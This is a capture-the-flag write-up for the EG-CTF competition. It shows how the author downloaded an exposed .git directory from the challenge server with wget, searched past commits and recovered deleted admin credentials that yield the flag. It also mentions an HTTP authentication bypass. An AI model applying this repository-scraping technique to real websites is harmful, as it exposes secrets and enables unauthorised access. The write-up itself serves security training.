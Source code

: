 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory <br/>
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/ <br/>
root@cloudshell: ls<br/>
172.105.76.128  <br/>
root@cloudshell: cd 172.105.76.128/<br/>
root@cloudshell:/172.105.76.128 ls -a<br/>
.  ..  .git<br/>
root@cloudshell:/172.105.76.128 cd .git/<br/>
root@cloudshell:/172.105.76.128/.git ls <br/>
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects<br/>
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs <br/> refs<br/>
//////////////////////////////////////////<br/>
// let's check the commits<br/>
//////////////////////////////////////////<br/>
root@cloudshell:/172.105.76.128/.git git reflog<br/>
2e3e1a8 HEAD@{0}: commit: Refining<br/>
89329fa HEAD@{1}: commit: NewFeature<br/>
dfecece HEAD@{2}: commit: Addinfo<br/>
b032cf8 HEAD@{3}: commit: Disable<br/>
5b9e491 HEAD@{4}: commit: DelCr<br/>
457168f HEAD@{5}: commit: AddUsetting<br/>
b55d897 HEAD@{6}: commit: editconf<br/>
70ae358 HEAD@{7}: commit (initial): initials<br/>
// i have check this commits one by one and i found <br/>
root@cloudshell:/172.105.76.128/.gitgit show 2e3e1a8<br/>
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254<br/>
Author: Ben ALaa <a.alaa@egcert.eg><br/>
Date:   Thu Nov 14 23:18:26 2019 +0100 <br/>

    Refining 
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 3d7f801..706d93b 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -420,15 +420,6 @@ CONFIG = array(<br/>
 'overwriteprotocol' => '',<br/>
<br/>
 /** <br/>
- * Override webroot<br/>
- * ownCloud attempts to detect the webroot for generating URLs automatically.<br/>
- * For example, if `www.example.com/owncloud` is the URL pointing to the<br/>
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it<br/>
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs. <br/>
- <br/>
-'overwritewebroot' => '',<br/>
-<br/>
-/<br/>
   Override condition<br/>
   This option allows you to define a manual override condition as a regular<br/>
   expression for the remote IP address. The keys `overwritewebroot`,<br/>
   //////////////////////////////////////////////////<br/>
// this show us the path of admin login is /S3cR3tPaTh/<br/>
/////////////////////////////////////////////////////////<br/>
root@cloudshell:/172.105.76.128/.gitgit show 5b9e491<br/>
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b<br/>
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100<br/>
<br/>
    DelCr<br/>
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 46ed4f3..72e9842 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -194,7 +194,7 @@ CONFIG = array(<br/>
 'knowledgebaseenabled' => true,<br/>
<br/>
 /** <br/>
- * Enables or disables avatars or user profile photos<br/>
+ /* Enables or disables avatars or user profile photos<br/>
  * `true` enables avatars, or user profile photos, `false` disables them.<br/>
  * These appear on the User page, on user's Personal pages and are used by some apps<br/>
  * (contacts, mail, etc).<br/>
@@ -469,15 +469,7 @@ CONFIG = array(<br/>
<br/>
<br/>
<br/>
-<br/>
- Admin Credentials<br/>
-<br/>
-'Admin_Login' => 'Administrator' <br/><br/>
-'Admin_Password' => 'FN3ym@bZNaF&'<br/><br/>

///////////////////////////////////////////////////////////////// <br/>
admin = Administrator <br/>
password = FN3ym@bZNaF& <br/>
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0} <br/>
sorry if something it's not clear <br/>
////////////////////////////////////////////////////////////////// <br/>
